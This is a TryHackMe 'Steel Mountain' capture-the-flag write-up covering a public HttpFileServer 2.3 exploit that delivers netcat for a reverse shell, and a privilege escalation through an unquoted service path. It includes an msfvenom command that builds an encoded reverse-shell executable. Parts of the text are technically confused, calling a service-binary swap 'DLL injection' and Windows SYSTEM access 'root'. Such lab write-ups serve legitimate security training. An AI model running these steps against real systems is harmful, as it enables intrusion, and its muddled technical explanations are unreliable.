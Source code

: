 ```yaml
---
title: Steel Mountains
author: cotes
date: 2024-01-13 11:33:00 +0800
categories: [TryHackMe, PrivEsc, Windows, Mac OS]
tags: [TryHackMe]
pin: false
math: true
mermaid: true
---
```


# TryHackMe: Steel Mountain WriteUp (MAC OS)

The TryHackMe Steel Mountain challenge is a hands-on cybersecurity task, simulating a real-world penetration test against a Windows system. Participants engage in stages like reconnaissance, exploitation, and privilege escalation using tools like Nmap, Metasploit, and PowerShell scripts. The challenge focuses on exploiting vulnerabilities such as unquoted service paths and misconfigurations in HTTP File Server.

![Mr.Robot Wallpaer](https://mrwallpaper.com/images/hd/mr-robot-elliot-glitch-art-background-gb7xxlkeskgsf6be.jpg "MR.Robot Wallpaper")

# Port Enumeration Process
The port scanning process generates output that provides information about several open ports on a target system, including possible software versions associated with each port. During this scanning operation, I prefer to meticulously review the results, selecting those that I believe will be most beneficial for further investigation. Typically, I prioritize port 80, which is commonly used for HTTP, and its alternate, port 8080, by actively exploring their accessibility and response.

![PortScan](/Images/PortScan.png "PortScan")


However, for a comprehensive assessment, it's essential to extend the examination beyond HTTP-related ports. One critical aspect is to verify the status of SMB (Server Message Block) on port 445, which can yield a wealth of information if it's not adequately secured. Inadequate protection can potentially expose sensitive data and system vulnerabilities, making thorough scrutiny imperative for effective security assessment and potential mitigation.

![URLVuln](/Images/8080.png "URLVuln")

This situation has piqued our interest. The application identified is HttpFileServer 2.3. Initial login attempts with common combinations like 'admin:admin' and 'admin:password' have proven unsuccessful. However, a Google search reveals a known exploit for this version, utilizing a local HTTP server to deliver and execute netcat on the target system. The discovery of this exploit offers a new perspective. While conventional access attempts haven't worked, this exploit hints at a potential vulnerability in HttpFileServer 2.3 that we can explore. Though we haven't yet achieved access through regular means, the existence of this exploit presents an intriguing alternative. We should consider a deeper dive into its mechanics, assess its viability, and see if it can bypass the current access limitations. This revelation certainly adds an interesting dimension to our investigation

# Initial Breach Point in Security

![Script](/Images/Script.png "Script")

As per the exploit's instructions, we must host Netcat using an HTTP server and set up a Netcat listener for the reverse shell. I duplicated Netcat, placing it in a designated Desktop directory, while also configuring a Netcat listener in a separate terminal to capture the incoming reverse shell. To deliver the duplicated Netcat utility to the target system, I employed a Python Simple HTTP server, creating a discreet channel for secure transmission. This approach ensures controlled deployment, minimizing the risk of detection. Following these precise steps aligns with the exploit's methodology, enhancing our control and reducing the likelihood of detection, thereby increasing our chances of success.

![ncStep](/Images/ncStep.png "ncStep")

Based on the provided image, it's evident that during the initial execution of the exploit, we observed a GET request for downloading the Netcat executable. In case this step encounters issues, ensure that the HTTP server is operated from the directory where Netcat is located.

![UserLevel](/Images/UserLevel.png "UserLevel")

Executing the exploit using identical syntax results in obtaining a user-level shell attributed to the user 'bill.' This consistent outcome indicates the reliability of the exploit in providing access under these conditions

# Host Discovery

In my capacity as 'bill,' I encountered an obstacle while attempting to access the Administrators directory, resulting in an 'Access denied' message. Despite this setback, my investigation led me to discover the user flag within bill's user profile directories.

Following the recommended approach outlined in the walkthrough, I opted to leverage PowerShell to retrieve a Windows Privilege Escalation enumeration script known as 'winPEAS.' This script is instrumental in identifying potential misconfigurations within a specific service. To acquire 'winPEAS,' I employed a PowerShell one-liner, which also facilitated the retrieval of 'accesschk.exe.' This dual approach was employed to scrutinize the 'winPEAS' output for potential vulnerabilities. During my evaluation, I applied these tools to bill's Desktop directory, which exhibited the desired functionality as it was writable, allowing me to proceed with the enumeration process effectively.

![GetPeas](/Images/GetPeas.png "GetPeas")

Using 'winPEAS -h' reveals additional paths to pinpoint specific misconfigurations. Given the vulnerability identified in an unquoted service path in the walkthrough, I opted to focus on the 'servicesinfo' option.

![WinPeasC](/Images/WinPeasC.png "WinPeasC")

Multiple unquoted path services exist, but permission limitations may hinder editing or writing. To address this, accesschk.exe is a valuable resource. The results indicate that bill has control (pause, start, stop) over AdvancedSystemCareService9. This is crucial because even if we find an exploitable unquoted service path, the service's permissions can limit its usefulness. If the user lacks start/stop permissions, privilege escalation may be ineffective.

The AdvancedSystemCareService9 checks the unquoted path 'C:\Program Files (x86)\IObit\Advanced SystemCare' for executables. Since the path lacks quotes, Windows may misinterpret it as 'C:\Program.exe' or 'C:\Program Files (x86)\IObit\ASCService.exe.

To exploit this, we can create an executable named 'ASCService.exe' using 'msfvenom' and place it in 'C:\Program Files (x86)\IObit' since bill has write access there. Here's the command for that:

```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<port> -f exe -e x86/shikata_ga_nai -o ASCService.exe
```
We've got all the pieces in place and have identified a potential Unquoted Service Path vulnerability. User 'bill' has control over the service, and 'bill' also has the ability to write to the binary path. Our 'Advanced.exe' reverse shell is now in the location where Windows will look when the service starts, and we've confirmed that the service runs with SYSTEM privileges.

![copyS](/Images/copyS.png "copyS")


After successfully delivering the payload to the target machine, our next objective is to execute a DLL injection on the system. In order to achieve this, we will replace the original service for the AdvanceSystemCareService9 with the one that has the service of ASCService.exe. This will enable us to carry out the necessary actions to complete our task.

![stop](/Images/stop.png "stop")


Following the completion of a specific task, I proceeded to stop the service that was running on the target machine. This provided me with an opportunity to restart the service, which enabled me to perform a DLL injection. By executing this technique, I was able to insert a custom DLL into the memory space of the target process and execute the code that I needed to accomplish my objective.

![start](/Images/start.png "start")

When I initially started the service, the payload we were using contained a DLL injection. This injection granted me root access to the machine on which I was working. As a result, I was able to obtain the root flag for the Steel Mountain TryHackMe box. It was a successful attempt that allowed me to gain control over the machine.

![root](/Images/root.png "root")


